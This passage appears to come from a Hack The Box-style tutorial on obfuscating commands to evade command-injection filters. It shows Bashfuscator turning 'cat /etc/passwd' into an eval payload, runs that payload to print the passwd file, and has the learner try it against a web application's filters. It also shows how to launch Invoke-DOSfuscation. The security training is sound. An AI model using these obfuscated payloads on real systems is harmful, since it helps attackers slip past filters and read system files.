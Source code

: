 ```bash
DJMC@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'

[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```

Running the tool this way will randomly pick an obfuscation technique, producing a command length ranging from a few hundred characters to over a million characters. We can use additional flags to produce shorter, simpler obfuscated commands:

```bash
DJMC@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```

### Testing the Command

We can test the obfuscated command with `bash -c ''` to ensure it executes the intended command:

```bash
DJMC@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

### Exercise
- Test the outputted command with a web application to see if it can bypass filters.
- If it fails, identify why and adjust the tool’s settings to produce a working payload.

---

## Windows (DOSfuscation)

A similar tool for Windows is **DOSfuscation**, which is interactive. It allows us to generate obfuscated commands for CMD and PowerShell. Clone the tool from GitHub and invoke it through PowerShell:

```powershell
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
```

### Help Menu
